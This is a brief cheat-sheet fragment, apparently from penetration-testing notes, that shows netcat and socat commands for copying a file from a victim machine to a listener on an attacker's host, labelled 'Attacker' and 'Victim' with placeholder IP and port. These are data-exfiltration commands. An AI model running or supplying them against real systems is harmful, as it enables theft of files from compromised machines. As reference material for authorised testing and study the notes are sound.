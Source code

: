 
##### Netcat
After sending a static copy to host:
```
nc -lvnp 6666 > new_file
nc -vn IP 6666 < exfil_file
```

##### Socat
After sending a static copy to host:
```
socat -u tcp-listen:6666,reuseaddr open:FILE,creat  // Attacker
socat -u file:FILE tcp-connect:IP:PORT              // Victim
```
